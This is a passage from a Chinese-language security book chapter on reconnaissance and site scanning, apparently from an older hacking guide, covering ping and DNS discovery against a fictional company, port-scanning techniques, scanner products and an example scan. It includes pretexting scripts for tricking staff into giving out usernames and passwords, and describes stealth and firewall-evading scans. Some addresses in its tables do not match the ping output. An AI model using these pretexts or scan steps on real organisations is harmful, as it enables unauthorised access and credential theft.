**图 5.5** ICMP 回显请求（PING）数据包从我们的 DNS 传输到 InterNIC DNS，再到目标公司的 ISP DNS，最终到达 XYZ Web 服务器以获取响应。

```
C:\>ping www.xyzinc.com

Pinging www.xyzinc.com [206.0.125.0] with 32 bytes of data:
Reply from 206.0.125.10: bytes=32 time=489ms TTL=52
Reply from 206.0.125.10: bytes=32 time=751ms TTL=51
Reply from 206.0.125.10: bytes=32 time=499ms TTL=52
Reply from 206.0.125.10: bytes=32 time=484ms TTL=51

Ping statistics for 206.0.125.10:
 Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
 Minimum = 484ms, Maximum = 751ms, Average = 555ms
```

**图 5.6** PING 请求最终将 URL www.xyzinc.com 解析为 IP 地址 206.0.125.10。

```
C:\>PING MAIL.XYZINC.COM

Pinging mail.xyzinc.com [206.0.126.5] with 32 bytes of data:
Reply from 206.0.126.5 bytes=32 time=398ms TTL=49
Reply from 206.0.126.5 bytes=32 time=398ms TTL=49
Reply from 206.0.126.5 bytes=32 time=398ms TTL=49
Reply from 206.0.126.5 bytes=32 time=398ms TTL=49
```

```
C:\>PING FTP.XYZINC.COM

Pinging ftp.xyzinc.com [206.0.126.12] with 32 bytes of data:
Reply from 206.0.126.12 bytes=32 time=312ms TTL=53
Reply from 206.0.126.12 bytes=32 time=312ms TTL=53
Reply from 206.0.126.12 bytes=32 time=312ms TTL=53
Reply from 206.0.126.12 bytes=32 time=312ms TTL=53
```

PING 查询请求揭示了重要的网络地址信息，指示了 XYZ Inc 的以下 DNS 条目：

| 主机 | 域名 | IP 地址 |
| :--- | :--- | :--- |
| www | www.xyzinc.com | 206.0.126.10 |
| mail | mail.xyzinc.com | 206.0.126.5 |
| ftp | ftp.xyzinc.com | 206.0.126.12 |

### 互联网 Web 搜索查询

万维网（World Wide Web）常被称为信息高速公路，因为它包含了数百万兆字节的数据和信息，供世界各地无数的人浏览。万维网通过采用搜索引擎来容纳大部分流量，搜索引擎是 Web 上增长最快的站点。

搜索引擎和 Usenet 组群是研究目标域名的绝佳工具，因此这一步涵盖了获取这些信息以辅助目标网络发现过程的方法。可以使用 Web 前端进行的扩展搜索来获取和/或验证地址、电话号码和技术联系人姓名。更流行的搜索引擎和蜘蛛程序可以利用其信息收集能力。

推荐的当代搜索引擎列表包括：

-   www.altavista.com
-   www.businessseek.com
-   www.clicheherefind.com
-   www.deja.com
-   www.excite.com
-   www.goto.com
-   www.hotbot.com
-   infoseek.go.com
-   www.lycos.com
-   www.nationaldirectory.com
-   www.peoplesearch.com
-   www.planetsearch.com
-   www.yellowpages.com

目标公司网站上的公司简介链接包含验证地址、电话号码和信息服务（IS）主管的信息。（还记得之前出现的行政联系人 Bill Thompson 吗？）这足以进行社会工程学查询，这将在下一步中介绍。

### 社会工程学查询

这一步解释了一种迫使潜在受害者透露网络访问信息的尝试。这是全球黑客、破解者和电话贼（phreaks）常用的一种技术。该方法的简单成功变体包括伪装成新用户以及技术人员。

### 伪装成新用户

根据先前步骤收集的信息，黑客可以拨打 XYZ 的主电话号码，要求转接至 IS 部门或技术支持组，然后假装是一名被告知联系他们以获取临时用户名和密码的临时员工。

更多的研究可以大大提高这一过程的成功率。例如，打电话询问市场营销部主管的名字可能会改变上述场景：在被转接至技术人员后，黑客可以先说：“你好，我叫 Tom Friedman。我是市场营销主管 Sharon Roberts 的新临时工，她让我打电话给你以获取临时用户名和密码。”

### 伪装成技术人员

要使用这种变体，黑客可能会要求转接至销售部门的某人。在那里，他或她可以说明 IS 总监 Bill Thompson 要求联系该部门的每个用户以验证登录访问权限，因为将引入一台新服务器以替换旧服务器。这些信息将使黑客能够成功登录，从而使服务器集成对他来说是透明的。

社会工程学查询过程有无限的变体。彻底且详细的研究收集有助于开发出最适合目标公司的变体。社会工程学查询产生 surprisingly 高的成功率。有关此方法的更多信息和成功案例，请搜索本书 CD 上 Tiger Tools Repository 中的链接。

### 站点扫描

如本章开头所述，扫描的基本思想是探测尽可能多的端口，并记录那些对特定黑客攻击有反应或有用的端口。扫描程序会报告这些有响应的监听者，分析弱点，并将这些弱点与已知黑客方法数据库进行交叉引用，以备后用。


> 本书中描述的技术涉及严重的法律问题。如果没有获得目标公司的书面同意，这些程序中的大多数在美国和许多其他国家都是非法的。作者或出版社对本书中包含信息的使用或误用不承担责任。

### 扫描技术

漏洞扫描器的功能可以分解为三个步骤：定位节点、在节点上执行服务发现，最后测试这些服务是否存在已知的安全漏洞。一些


本节描述的扫描技术能够穿透防火墙。虽然安全与黑客世界中部署了众多工具，但很少有工具的地位高于扫描器。

> 在本书中，防火墙被定义为一个旨在保护组织网络免受来自其他网络（如互联网）的外部威胁的安全系统。防火墙阻止组织内的计算机与外部计算机直接通信，反之亦然。相反，所有通信都通过组织网络外部的代理服务器进行路由；由代理服务器决定是否允许特定消息或文件安全地通过到组织网络。

扫描器在通信介质上发送多个数据包，遵循利用服务端口的各种协议，然后监听并记录每个响应。本章稍后将介绍的最流行扫描器（例如 nmap）采用已知技术来检查端口和协议，包括：

- **TCP 端口扫描**。这是最基本的扫描形式。使用此方法，你尝试建立一个完整的 TCP 端口连接，以确定该端口是否处于活动状态，即“正在监听”。
- **TCP SYN 扫描**。这种技术通常被称为*半开*或*隐蔽*扫描，因为你没有建立完整的 TCP 连接。你发送一个 SYN 数据包，仿佛你要建立一个真实连接，并等待响应。SYN/ACK 表明该端口正在监听。因此，RST 响应表明该端口未监听。如果收到 SYN/ACK，你立即发送 RST 来终止连接。这种扫描技术的主要优点是更少站点会记录它。
- **TCP FIN 扫描**。有时，即使是 TCP SYN 扫描也不够隐蔽，无法避免被记录。某些防火墙和包过滤器会监视针对受限端口的 SYN，并且 Synlogger 和 Courtney 等程序可用于完全检测这些扫描。另一方面，FIN 数据包可能能够无阻碍地通过。其理念是，关闭的端口倾向于用适当的 RST 回复你的 FIN 数据包，而开放的端口倾向于忽略相关数据包。
- **分片扫描**。这是其他技术的变体。你不只是发送探测数据包，而是将其拆分成几个小的 IP 分片。基本上，你将 TCP 头部拆分到多个数据包中，使包过滤器更难检测正在发生的事情。
- **TCP 反向 Ident 扫描**。正如安全专家 Dave Goldsmith 在 1996 年的一篇 bugtraq 帖子中所述，ident 协议（RFC 1413）允许披露通过 TCP 连接的任何进程所有者的用户名，即使该进程未发起连接。因此，例如，你可以连接到 http 端口，然后使用 ident 守护进程来确定服务器是否以 root 身份运行。
- **FTP 反弹攻击**。FTP 协议（RFC 959）的一个有趣“功能”是对“代理”FTP 连接的支持。换句话说，你应该能够从 evil.com 连接到 target.com 的 FTP 服务器-PI（协议解释器）以建立控制通信连接。然后你应该能够请求服务器-PI 发起主动的服务器-DTP（数据传输过程），将文件发送到互联网上的任何位置！
- **UDP ICMP 端口不可达扫描**。这种扫描方法与前述方法的不同之处在于它使用 UDP 协议而不是 TCP。尽管这种协议不那么复杂，但扫描它实际上要困难得多。开放端口不需要对你的探测发送确认响应，而关闭端口甚至不需要发送错误数据包。幸运的是，大多数主机在你向关闭的 UDP 端口发送数据包时会发送 ICMP_PORT_UNREACH 错误。因此，你可以确定端口是否关闭，并通过排除法确定哪些端口是开放的。
- **UDP recvfrom() 和 write() 扫描**。虽然非 root 用户无法直接读取端口不可达错误，但 Linux 足够酷，当接收到这些错误时会间接通知用户。例如，对关闭端口的第二次 write() 调用通常会失败。许多扫描器（如 ncat 和 Pluvius’ pscan.c）都这样做。这是非 root 用户使用 -u (UDP) 确定开放端口时使用的技术。

## 扫描器包

公众可以获取许多扫描器，每个扫描器都具有独特的功能，针对特定目标执行特定技术。有 TCP 扫描器，它们攻击 TCP/IP 端口和服务（如第 1 章中列出的那些）。其他扫描器则仔细检查 UDP 端口和服务，其中一些也在第 1 章中列出。本节的目的是识别某些更流行的扫描器，并概括其功能。第 12 章介绍了一个完整的因特网安全套件，称为 TigerSuite，其评估包含在本书的 CD 上。

### CyberCop 扫描器

**平台：** Windows NT, Linux

CyberCop 扫描器（如图 5.7 所示），由 Network Associates 提供，将审计和漏洞评估与下一代入侵监控工具以及先进的诱饵服务器技术相结合，以对抗窥探。CyberCop 检查计算机系统和网络设备是否存在安全漏洞，并支持对 NT 和 UNIX 工作站、服务器、集线器、交换机进行测试，并包括 Network Associates 独有的 tracer 包防火墙测试，以提供防火墙和路由器的审计。报告选项包括执行摘要、深入细节报告和现场解决建议。CyberCop 扫描器的一个非常独特的功能是其自动更新技术，以保持内核引擎、解决方法和漏洞数据库的最新状态。功能包括各种形式的报告分析，如网络映射、图表、执行摘要和风险因素报告。CyberCop 扫描器无疑是当今漏洞扫描领域中的顶级产品之一。


**黑客笔记** 在北美，可以通过点击 www.networkassociates.com 来评估 CyberCop 扫描器。

### Jakai

**平台：** Linux

Jakai 是前文定义的更为流行的扫描器之一，被归类为隐蔽或半扫描。回顾第 1 章中讨论的通信握手：隐蔽扫描器从不完成整个 SYN/ACK 过程，因此绕过防火墙，并从扫描检测器中隐藏。这种方法允许 Jakai 等隐蔽扫描器在不引人注目的情况下生成活动的端口和服务。标准的 TCP 连接是通过向目标主机发送 SYN 数据包建立的。如果目标在指定端口等待连接，它会响应一个 SYN/ACK 数据包。初始发送方通过回复一个 ACK 数据包，从而建立连接。如果目标主机未在指定端口等待连接，它会响应一个 RST 数据包。大多数系统日志在从源接收到最终的 ACK 数据包之前不会列出已完成的连接。发送 RST 数据包而不是最终的 ACK，会导致连接实际上从未建立，因此不会发生记录。由于源可以识别目标主机是否发送了 SYN/ACK 或 RST，攻击者可以确切地确定哪些端口对连接开放，而目标始终不会意识到探测。然而，请记住，一些嗅探器包可以检测并识别隐蔽扫描器，并且检测包括扫描节点的身份。

**黑客笔记** 可以在本书的 CD 上评估 Jakai。

### NetRecon

**平台：** Windows NT

NetRecon（如图 5.8 所示），由 Axent 提供，是一个网络漏洞评估工具，可以发现、分析和报告网络中的脆弱点。NetRecon 通过扫描和探测网络上的系统，对当前安全状况进行外部评估。NetRecon 重现特定的入侵或攻击，以识别和报告网络漏洞，同时建议纠正措施。NetRecon 与 CyberCop 扫描器并列为当今漏洞扫描领域中的顶级产品之一。


图 5.8 NetRecon 目标。

> **黑客提示** 在北美，可以在 www.axent.com 上评估 NetRecon。

## 网络安全性扫描器 / WebTrends 安全分析器

**平台：** Windows 95/98/2000/NT，支持 Solaris 和 Red Hat Linux 代理

网络安全性扫描器 (NSS) 技术已整合到 WebTrends 安全分析器中（如图 5.9 所示）。该产品通过检测 Windows NT、95 和 98 系统上的安全漏洞来帮助保护您的内网和外网，并针对这些漏洞推荐修复方案。该产品的一个流行功能是内置的 AutoSync，它可以无缝地用最新的安全测试更新 WebTrends 安全分析器，从而提供市场上最完整、最当前的漏洞分析。据称，该产品的 HTML 输出是目前市场上最整洁、最易读的。

> **黑客提示** 在北美，可以在 www.webtrends.com/ 上评估 WebTrends 安全分析器。


**图 5.9** WebTrends 安全分析器。

## Nmap

**平台：** Linux

根据作者 Fyodor 的说法，Nmap（如图 5.10 所示）主要是一个用于对大型网络进行端口扫描的工具，虽然它同样适用于单台主机。创建 nmap 的指导理念是 Perl 口号 TMTOWTDI（做事不止一种方法）。有时你需要速度，有时你则需要隐蔽性。在某些情况下，可能需要绕过防火墙；或者你可能希望扫描不同的协议（UDP、TCP、ICMP 等）。你无法用一种扫描模式完成所有这些操作，也不希望周围有 10 个不同的扫描器，且每个扫描器都有不同的界面和功能。因此，nmap 融合了几乎所有已知的扫描技术。

Nmap 还支持多项性能和可靠性功能，例如动态延迟时间计算、数据包超时和重传、并行端口扫描，以及通过并行 ping 检测宕机主机。Nmap 还提供灵活的目标和端口指定、诱饵扫描、TCP 序列可预测性特征判定，以及输出到机器可解析或人类可读日志文件。

> **黑客提示** 可以在本书的光盘上评估 Nmap。


**图 5.10** nmap 前端界面。

## SAFEsuite

**平台：** Windows NT, Solaris, Linux

SAFEsuite（图 5.11）是一款安全应用程序，它还用于识别网络中的安全“热点”。这种对企业安全信息的全面、全局视图通过整合和关联来自多个来源的数据，提供了通常无法获得的信息，从而使安全人员能够做出及时且明智的安全决策。

SAFEsuite Decisions 收集并整合来自网络源的安全信息，包括 Check Point FireWall-1、Network Associates’ Gauntlet Firewall、ISS RealSecure 入侵检测与响应系统，以及 ISS Internet Scanner 和 System Scanner 漏洞检测系统。

SAFEsuite Decisions 自动关联和分析跨产品数据，以显示整个企业网络的安全风险特征。例如，由 Internet 扫描器发现的漏洞，以及由 SAFEsuite 组件 RealSecure 检测到的入侵事件，将被关联起来以提供高价值信息，指出网络中哪些特定主机易受攻击以及哪些主机已经遭到攻击。


**图 5.11** SAFEsuite。

> **黑客提示** 可以在本书的光盘上评估 SAFEsuite。

## 网络分析安全管理员工具后继版本 SAINT

**平台：** Solaris, Linux, IRIX

网络分析安全管理员工具（别名：SATAN）由 Dan Farmer 和 Wiete Vegema 编写，宣传语是帮助系统管理员的工具。根据 SATAN 顾问 Muffy Barkocy 的说法，该程序的开发源于这样的认识：计算机系统对网络的依赖日益增加，同时通过该网络遭受攻击的易感性也在增加。SATAN 能识别并报告几种常见的与网络相关的安全问题，但不会实际利用这些问题。对于发现的每种问题，SATAN 都提供一个教程，解释该问题及其潜在影响。教程还解释了如何补救该问题，例如，是修正配置文件的错误，安装厂商提供的补丁或错误修复程序，使用其他手段限制访问，还是简单地禁用某项服务。

SATAN 收集的是网络上每个人都可以访问的信息。如果部署了配置正确的防火墙，外部人员可访问的信息应接近于零。Muffy 进行的有限研究表明，在拥有几十个以上系统的网络中，SATAN 不可避免地会发现一些问题。但请记住，入侵者社区已经利用这些问题很长时间了。

SATAN 主要使用 Perl 和 C 编写，带有一些用于管理和报告的 HTML 前端。内核经过 tar 和 zip 压缩，仅与大多数 UNIX 变体兼容。SATAN 扫描主要关注但不限于以下守护程序漏洞：

- FTPD
- NFS
- NIS
- RSH
- Sendmail
- X Server

在 SATAN 初始版本发布后的一周内，更新版本即已可用，提供了对更多平台（bsdi, ultrix, dg/ux）的支持，并解决了若干可移植性问题（rpcgen、ctime.pl 等现已打包）。此外，许多小麻烦也被修复，FAQ 文档也得到了扩展。现在的 SATAN 附带了一个漏洞教程，解释了如何以安全的方式运行 SATAN。它详细解释了今天的 CERT/CC 公告未告知的内容，以及更多内容。

使用 SATAN，黑客、破坏者和黑客电话爱好者可以扫描几乎任何连接到 Internet 的节点或网络。UNIX 系统特别容易受到 SATAN 扫描，因为入侵者遵循简单的标准攻击步骤：

1. 获取对系统的访问权限
2. 获取该系统的管理员或 root 访问权限。
3. 将访问权限扩展到其他系统。

话虽如此，UNIX 管理员不必担忧，因为有几种监测代理可用于检测 SATAN，包括 Courtney、Gabriel 和许多 TCP wrappers。

### 安全管理员集成网络工具

安全管理员集成网络工具（SAINT）是 SATAN 的更新和增强版本，旨在评估计算机网络的安全性。在最简单的模式下，SAINT 通过检查如 finger、NFS、NIS、FTP 和 TFTP、rextd、staid 以及其他服务等网络服务，收集尽可能多的关于远程主机和网络的信息。收集的信息包括各种网络信息服务的存在，以及潜在的安全缺陷。随后，SAINT 可以报告这些数据，或使用简单的基于规则的系统来调查任何潜在的安全问题。用户随后可以使用 HTML 浏览器（如 Netscape 或 Lynx）检查、查询和分析输出结果。虽然该程序主要侧重于分析结果的安全影响，但可以从该工具中获取大量一般网络信息——网络拓扑、正在运行的网络服务、网络中使用的硬件和软件类型等。

但是，SAINT 的真正威力在于探索模式下的使用。基于初始数据收集和用户可配置的规则集，它将检查信任和依赖的路径，并针对次要主机迭代进行进一步的数据收集。这不仅允许用户分析他们自己的网络或主机，还能让他们检查网络和信任及服务的固有含义，并帮助他们就所涉系统的安全级别做出相对明智的决策。

SAINT 和 SATAN 都可以在本书的光盘上或通过以下链接进行评估：

# 在北美


## 美国境内

- www.wwdsi.com/saint/
- ftp://ftp.mc.s.anl.gov/pub/security
- ftp://coast.cs.purdue.edu/pub/tools/unix/satan
- ftp://vixen.cso.uiuc.edu/security/satan-1.1.1.tar.Z
- ftp://ftp.acsu.buffalo.edu/pub/security/satan-1.1.1.tar.Z
- ftp://ftp.acsu.buffalo.edu/pub/security/satan-1.1.1.tar.gz
- ftp://ftp.net.ohio-state.edu/pub/security/satan/satan-1.1.1.tar.Z
- ftp://ftp.cerf.net/pub/software/unix/security/
- ftp://ftp.tisl.ukans.edu/pub/security/satan-1.1.1.tar.Z
- ftp://ftp.tcsu.com/pub/security/satan-1.1.1.tar.Z
- ftp://ftp.orst.edu/pub/packages/satan/satan-1.1.1.tar.Z
- ftp://ciac.llnl.gov/pub/ciac/sec/tools/unix/satan/

## 澳大利亚

- ftp://ftp.dstc.edu.au/pub/security/satan/satan-1.1.1.tar.Z
- ftp://coombs.anu.edu.au/pub/security/satan/
- ftp://ftp.auscet.org.au/pub/mirrors/ftp.win.tue.nl/satan-1.1.1.tar.Z

## 欧洲

- ftp://ftp.denet.dk/pub/security/tools/satan/satan-1.1.1.tar.Z
- http://ftp.luth.se/pub/unix/security/satan-1.1.1.tar.Z
- ftp://ftp.luth.se/pub/unix/security/satan-1.1.1.tar.Z
- ftp://ftp.wi.leidenuniv.nl/pub/security
- ftp://ftp.cs.ruu.nl/pub/SECURITY/satan-1.1.1.tar.Z
- ftp://ftp.cert.elfn.de/pub/tools/net/satan/satan-1.1.1.tar.Z
- ftp://ftp.cs1.forth.gr/pub/security/satan-1.1.1.tar.Z
- ftp://ftp.informatik.uni-kiel.de/pub/sources/security/MIRROR.ftp.win.tue.nl
- ftp://ftp.kulnet.kuleuven.ac.be/pub/mirror/ftp.win.tue.nl/security/
- ftp://ftp.ox.ac.uk/pub/comp/security/software/satan/satan-1.1.1.tar.Z
- ftp://ftp.nvg.unit.no/pub/security/satan-1.1.1.tar.Z
- ftp://cnit.nsk.su/pub/unix/security/satan
- ftp://ftp.win.tue.nl/pub/unix/security/satan-1.1.1.tar.Z

## Tiger Tools TigerSuite

**平台：** Windows 9x, NT, 2000, OS/2, Mac, Linux, Solaris

TigerSuite 由一套完整的安全入侵工具组成，被某些人评为排名第一的互操作安全工具箱。在本作者进行的一项基准测试中，将 Tiger Tools 与其他流行的商业发现/扫描软件进行了比较，在对五个系统进行简单的 1000 端口扫描时，Tiger Tools 的平均扫描时间不到一分钟，而另一款软件在获得相同结果的情况下平均需要 35 分钟。简而言之，设计并开发的产品明显优于其竞争对手。

135

除上述外，该产品提供了以下小节中描述的具体安全功能。


TigerSuite 在第 12 章中有详细介绍，并且可以在本书的 CD 上获取评估版本。

### 本地分析器

本地分析器是一组用于在本地发现、分析和评估该产品将驻留的系统上的工具。这些工具包括：

- 病毒/特洛伊木马分析
- 文件信息
- 比较
- 系统信息
- 资源探索
- DBF 查看/编辑
- 磁盘信息
- 复制主程序

这些工具可以在网络内的任何系统上执行，可用于一般系统工具，但它们必须驻留在运行 Tiger Tools 产品的主机系统上。这确保系统是“干净”且已准备好进行安全分析。

### 网络发现

网络发现包括一组可在网络环境中运行的工具，用于发现、识别和列出网络中的所有漏洞区域。网络发现工具集包括：

- Ping
- 端口扫描器
- IP 扫描器
- 站点发现
- 网络端口扫描器
- 代理扫描器
- 路由跟踪
- Telnet
- NSLookup
- DNS 查询
- NetStat
- Finger, Echo
- Time, UDP
- 邮件列表验证
- HTTPD 基准测试
- FTP 基准测试

网络发现将为网络专业人员提供网络中所有漏洞的详细列表。他或她随后可以参考 Tiger Tools 2000 InfoBase 中的知识库，以获取缓解漏洞的建议措施。

### Tiger Tools 攻击

Tiger Tools Attack 包括用于渗透测试的工具，例如：

- Penetrator
- WinNuke
- 邮件炸弹
- 暴力破解生成器
- Finger 和 Sendmail
- 缓冲区溢出
- Crc 文件
- 垃圾邮件发送器
- HTTP 破解
- FTP 破解
- POP3 破解
- Socks 破解
- SMB 密码检查
- Unix 密码检查
- Zip 破解
- Rar 破解
- CGI 检查
- 特洛伊木马扫描

这些工具实际上生成多种不同类型的攻击、破解尝试和渗透测试，以确定当前的安全策略是否足够或是否正确实施。这些信息将帮助网络专业人员知道还需要采取哪些额外步骤来充分保护他们的网络。

### What’s Up

**平台：** Windows

What’s Up Gold (图 5.12) 提供多种实时视图，显示您的网络状态，并在网络问题升级为昂贵的停机事件之前，通过寻呼机或电子邮件远程提醒您。What’s Up Gold 的卓越图形界面帮助您创建网络地图，添加设备，指定要监控的服务，并配置警报。What’s Up 扫描工具是一个简单的、单击即用的 IP 地址和端口扫描器。此外，工具菜单提供对选定的一组可用于诊断网络问题的网络工具的访问。它们包括：

- **信息。** 显示关于网络主机或设备的摘要信息，包括官方主机名、IP 地址和联系信息（来自 Whois 数据库）。
- **时间。** 查询多个时间服务器；还同步您的本地系统时钟。
- **HTML。** 查询 Web 地址并显示完整的头部信息和页面数据。
- **Ping。** 向指定的 IP 地址发送一组 ICMP 回显请求，并在屏幕上显示网络响应时间（以毫秒为单位）。
- **TraceRoute。** 显示 ICMP 回显请求到达目的地所经过的实际网络路径，以及与前一次时间的差异。
- **查找。** 提供访问用户堆栈中名称解析功能。用户可以输入 IP 地址并获取系统的官方名称，或者输入名称并获取 IP 地址。
- **Finger。** 使用 finger 协议查询主机。用户输入主机名以查看当前登录的其他用户。
- **Whois。** 从各种网络信息提供商处查找网络或用户信息。
- **LDAP。** 在支持 LDAP 的主机上显示用户的姓名和电子邮件地址。
- **引言。** 显示支持 Quote 服务器的远程主机上的“每日一句”。
- **扫描。** 扫描指定 IP 地址范围内的连接网络元素，并可选地映射结果。扫描还可以识别系统中可能可用的网络服务（例如，SMTP, FTP, HTTP, Telnet 等）。
- **SNMP。** 显示支持 SNMP 协议的远程主机的网络配置和状态信息。
- **WinNet。** 提供关于用户本地网络的信息。用户可以从下拉列表中选择要显示的网络项目类型。
- **吞吐量。** 通过向远程主机发送指定数量的大小递增的数据包来验证网络连接的吞吐量。


### 示例扫描

在本章的前面部分，我们执行了目标发现（在此期间我们挖掘了一个网络地址）；现在我们积累了合适的工具，所以我们可以准备执行站点扫描。在此期间，我们只扫描以发现活动的地址及其开放端口。黑客不会花费大量时间进行渗透扫描和漏洞测试，因为这可能导致他们自己被检测出来。

标准的目标站点扫描将基于网络是一个完整的 C 类网络（关于子网的回顾，请参见第 1 章和本书后部的附录）的假设。因此，我们将扫描器设置为地址范围 206.0.126.1 到 206.0.126.254，掩码为 24 位，或 255.255.255.0，以适应我们之前的 DNS 发现结果：

```text
www www.xyzinc.com 206.0.126.10
mail mail.xyzinc.com 206.0.126.11
ftp ftp.xyzinc.com 206.0.126.12
```

在第一次通过时，为了获得最大的扫描速度，我们将扫描端口 1 到 1000（大多数知名端口）：

206.0.126.1  206.0.126.55  206.0.126.96
206.0.126.8  206.0.126.56  206.0.126.97
206.0.126.10:80  206.0.126.61  206.0.126.110
206.0.126.11  206.0.126.62  206.0.126.111
206.0.126.22  206.0.126.63  206.0.126.112
206.0.126.23  206.0.126.64  206.0.126.113
206.0.126.25  206.0.126.65  206.0.126.114
206.0.126.27  206.0.126.66  206.0.126.115
206.0.126.28  206.0.126.67  206.0.126.116
206.0.126.29  206.0.126.69  206.0.126.117
206.0.126.30  206.0.126.70  206.0.126.118
206.0.126.33  206.0.126.86  206.0.126.119
206.0.126.35  206.0.126.87  206.0.126.120
206.0.126.39  206.0.126.89  206.0.126.121
206.0.126.44  206.0.126.92  206.0.126.122
206.0.126.49  206.0.126.93  206.0.126.123
206.0.126.53  206.0.126.94  206.0.126.124
206.0.126.54  206.0.126.95  206.0.126.125
206.0.126.126  206.0.126.158  206.0.126.223
206.0.126.127  206.0.126.159  206.0.126.224
206.0.126.128  206.0.126.168  206.0.126.225
206.0.126.129  206.0.126.172  206.0.126.231
206.0.126.130  206.0.126.173  206.0.126.236
206.0.126.131  206.0.126.175  206.0.126.237
206.0.126.133  206.0.126.177  206.0.126.238
206.0.126.136  206.0.126.179  206.0.126.239
206.0.126.137  206.0.126.183  206.0.126.240


- 206.0.126.141
- 206.0.126.186
- 206.0.126.241
- 206.0.126.142
- 206.0.126.200
- 206.0.126.243
- 206.0.126.143
- 206.0.126.201
- 206.0.126.245
- 206.0.126.153
- 206.0.126.203
- 206.0.126.247
- 206.0.126.154
- 206.0.126.206
- 206.0.126.249
- 206.0.126.155
- 206.0.126.207
- 206.0.126.250
- 206.0.126.156
- 206.0.126.221
- 206.0.126.251
- 206.0.126.157
- 206.0.126.222

我们初次扫描的输出显示了略多于 104 个存活地址。为了改善针对几个已发现地址的假设，我们将再次运行扫描，并将超时时间设置为 2 秒。这应该有足够的时间来发现更多开放的端口：

- 206.0.126.1:23
- 206.0.126.37
- 206.0.126.67
- 206.0.126.8:7, 11, 15, 19, 21, 23, 25, 80, 110, 111
- 206.0.126.39
- 206.0.126.69
- 206.0.126.44
- 206.0.126.77
- 206.0.126.49
- 206.0.126.82
- 206.0.126.10:21, 23, 80
- 206.0.126.53
- 206.0.126.87
- 206.0.126.11:25, 110
- 206.0.126.54
- 206.0.126.89:7, 11, 21, 23, 25, 80, 110, 111
- 206.0.126.22
- 206.0.126.59
- 206.0.126.26
- 206.0.126.61
- 206.0.126.92
- 206.0.126.27
- 206.0.126.62
- 206.0.126.93
- 206.0.126.28
- 206.0.126.63
- 206.0.126.94
- 206.0.126.29
- 206.0.126.64
- 206.0.126.95
- 206.0.126.30:21, 80
- 206.0.126.65
- 206.0.126.96
- 206.0.126.31
- 206.0.126.66
- 206.0.126.98
- 206.0.126.110
- 206.0.126.133
- 206.0.126.206
- 206.0.126.111
- 206.0.126.136
- 206.0.126.207
- 206.0.126.112
- 206.0.126.137
- 206.0.126.221
- 206.0.126.113
- 206.0.126.141
- 206.0.126.222
- 206.0.126.114
- 206.0.126.142
- 206.0.126.223
- 206.0.126.116
- 206.0.126.144
- 206.0.126.224
- 206.0.126.117
- 206.0.126.153
- 206.0.126.225
- 206.0.126.118
- 206.0.126.154
- 206.0.126.231
- 206.0.126.119
- 206.0.126.155
- 206.0.126.236
- 206.0.126.120
- 206.0.126.156
- 206.0.126.237
- 206.0.122
- 206.0.126.157
- 206.0.126.238
- 206.0.123
- 206.0.126.158
- 206.0.126.239
- 206.0.124
- 206.0.126.159
- 206.0.126.240
- 206.0.125
- 206.0.126.169
- 206.0.126.241
- 206.0.126
- 206.0.126.172
- 206.0.126.243
- 206.0.127
- 206.0.126.173
- 206.0.126.247
- 206.0.128
- 206.0.126.176
- 206.0.126.249
- 206.0.129
- 206.0.126.177
- 206.0.126.250
- 206.0.130
- 206.0.126.201
- 206.0.131
- 206.0.126.203

请仔细查看我们第二次扫描的输出，并将其与前一次扫描进行对比。值得思考的关键地址及其活动端口包括：

- 206.0.126.1:23, 161, 162
- 206.0.126.8:7, 11, 15, 19, 21, 23, 25, 80, 110, 111
- 206.0.126.10:21, 23, 80
- 206.0.126.11:25, 110
- 206.0.126.30:21, 80
- 206.0.126.89:7, 11, 21, 23, 25, 80, 110, 111

其余地址显然是动态分配的、虚拟的地址，可能是通过防火墙或路由器中的网络地址转换（NAT）实现的。你会发现，这些地址在第二次扫描中略有不同。活动端口的缺失以及地址的差异表明，这些是正在浏览互联网的内部用户。

> **黑客注**
>
> **NAT（网络地址转换）是将内部网络或其他私有网络（称为子域）中使用的 IP 地址与合法配置的 IP 地址进行转换的过程。管理员使用 NAT 的原因包括安全性、监控、控制，以及为了避免必须修改先前分配的地址以符合合法的互联网地址而进行的转换。**

让我们进一步调查我们的关键目标地址，并定义每个开放的端口：

- **206.0.126.1:23, 161, 162**
    - **端口 23：Telnet。** 一个守护进程，通过提供对远程计算机的网络或互联网访问和管理功能。为了更有效地攻击系统，黑客可以利用 Telnet 服务提供的信息。
    - **端口 161/162：SNMP。** 许多管理员允许绑定到这些端口的读写属性，通常使用默认的社区名称或极容易被解码的名称。我们推测该特定地址绑定在路由器的外部接口上。管理员通常使用地址池中的 .1 作为路由器。此外，唯一的活动端口是用于远程管理的 Telnet 端口。在后续章节中，我们将执行详细的穿透扫描以进一步分析此地址。一些黑客会简单地使用某个 ISP 账户并通过 Telnet 测试该地址，例如，在 Win95/98/NT 中，通过命令行提示符或“开始/运行”进入 Telnet（参见图 5.13）。


图 5.13 Telnet 揭示了一个 Cisco 路由器的登录界面。

如前所述，该地址绑定在一个 Cisco 路由器上。

在第二个发现的地址上，我们可以推测该节点是某种形式的 UNIX 服务器。在我们运行大量扫描之后，服务器端口模式如下所示：

- **206.0.126.8:7, 11, 15, 19, 21, 23, 25, 80, 110, 111**
    - **端口 7：echo（回声）。** 通信中的一个模块；一个传输回发送者的信号，该信号与原信号不同。将消息回显到主计算机可以测试网络连接。主要的消息生成工具是 PING。
    - **端口 11：systat。** systat 服务是一个 UNIX 服务器功能，提供远程列出正在运行的进程的能力。根据此信息，黑客可以选择哪些攻击最成功。
    - **端口 15：netstat。** netstat 命令允许显示活动网络连接的状态、MTU 大小等。根据此信息，黑客可以假设信任关系，以渗透到当前域之外。
    - **端口 19：chargen。** chargen 服务旨在生成字符流用于测试目的。远程攻击者可以利用该服务，通过系统的 echo 服务与 chargen 服务形成环路。攻击者不需要在当前子网内，即可通过这种欺骗的网络会话造成严重的网络性能下降。
    - **端口 21：FTP。** 开放的 FTP 守护进程横幅可以通过列出服务守护进程的版本来帮助黑客。根据操作系统和守护进程版本，攻击者可能能够获得系统的匿名访问权限。
    - **端口 23：telnet。** 一个守护进程，提供对远程计算机的网络或互联网访问和管理功能。为了更有效地攻击系统，黑客可以利用 Telnet 服务提供的信息。
    - **端口 25：SMTP。** 借助 SMTP 和端口 110：POP3，攻击者可以通过发送邮件炸弹、伪造邮件或简单地窃取网关服务用于互联网邮件传输来滥用邮件服务。
